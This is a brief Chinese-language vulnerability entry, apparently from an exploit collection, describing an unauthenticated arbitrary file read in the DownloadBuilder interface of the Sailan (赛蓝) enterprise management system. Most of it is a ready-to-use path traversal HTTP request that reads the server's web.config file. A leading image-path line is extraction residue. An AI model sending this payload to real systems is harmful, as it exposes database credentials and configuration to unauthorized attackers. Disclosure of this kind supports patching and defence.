 **漏洞描述：**

赛蓝企业管理系统 DownloadBuilder 接口处存在任意文件读取漏洞，未经身份验证攻击者可通过该漏洞读取系统重要文件（如数据库配置文件、系统配置文件）、数据库配置文件等等，导致网站处于极度不安全状态。

**影响版本：**

赛蓝企业管理系统

**Payload：**

```jsx
GET /BaseModule/ReportManage/DownloadBuilder?filename=/../web.config HTTP/1.1
```

---
